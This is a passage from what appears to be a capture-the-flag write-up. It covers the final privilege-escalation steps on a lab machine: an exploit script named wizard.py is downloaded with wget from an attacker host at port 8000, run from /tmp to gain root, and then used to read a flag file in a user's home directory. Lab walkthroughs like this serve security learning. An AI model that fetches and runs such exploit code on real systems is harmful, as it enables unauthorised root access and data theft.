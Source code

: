```Bash
wget http://IP:8000/wizard.py
```

![SCREEN36](https://github.com/user-attachments/assets/2b952dc7-c596-4a5a-85df-f8e464fbd8d1)
![SCREEN37](https://github.com/user-attachments/assets/dff35644-1b6a-4bc7-8cf5-722f2d3f90a2)

5. Move the wizard.py file to the /tmp directory which typically has execution permissions, and then execute the exploit

```Bash
mv wizard.py /tmp
cd /tmp
python3 wizard.py
```

![SCREEN38](https://github.com/user-attachments/assets/75fbb4da-564c-46d0-9901-20a6c699d00c)

6. With root access established, we can now navigate to Princess Bubblegum's directory to find the final flag

```Bash
cd /home/bubblegum/
ls
cd Secrets/
ls
cat bmo.txt
```

![SCREEN39](https://github.com/user-attachments/assets/3c35e86c-67c1-4e68-bd22-0431a7d58f55)
